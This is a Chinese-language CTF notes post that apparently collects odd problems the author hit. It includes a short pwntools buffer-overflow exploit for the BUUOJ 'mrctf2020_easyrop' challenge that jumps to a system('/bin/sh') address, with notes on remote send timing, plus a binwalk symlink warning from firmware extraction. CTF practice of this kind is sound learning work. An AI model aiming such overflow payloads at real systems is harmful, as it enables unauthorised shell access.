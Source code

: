 ```yaml
---
title: 遇到的奇奇怪怪问题汇总
tags: [ctf-pwn,Others]
date: 2022-11-29 21:35:00
categories: [杂项]
excerpt: 解决或未解决的奇怪问题
---
```


#### sleep ？

题目：

<https://buuoj.cn/challenges#mrctf2020_easyrop>

本来是很简单的一个溢出

```python
from pwn import *
from time import sleep
#r = process('./mrctf2020_easyrop')
r = remote('node4.buuoj.cn',25663)
system_sh =0x000000000040072A
r.sendline(b'2')
#sleep(1)
r.sendline(b'a'*0x300)
r.sendline(b'7')
#sleep(1)
r.sendline(b'a'* 0x12 + p64(system_sh))
r.interactive()
```

但是不加sleep无法通过

有人说是python同时发送多个字符串时会合并(?)

那什么时候情况下需要在sendline前面加一个sleep

​    [已解决] 打本地不加应该没事，打远程的时候肯定会有一点延迟，假如没有sendafter这一类的发送，就可能会造成后面的也一起发送了，所以每次写exp发送的时候最好用sendafter或者sendlineafter这样的话就不需要再担心sleep(1)了

----------------------------------------------------------------------------------



#### binwalk提取固件时快捷方式指向/dev/null

binwalk提取固件时会有一个warning

```
WARNING: Symlink points outside of the extraction directory: /home/kali/Desktop/dir815_FW_101/_DIR-815 FW 1.01b14_1.01b14.bin.extracted/squashfs-root/htdocs/web/dlcfg.cgi -> /htdocs/cgibin; changing link target to /dev/null for security purposes.
```

用到这个快捷方式时要修改一下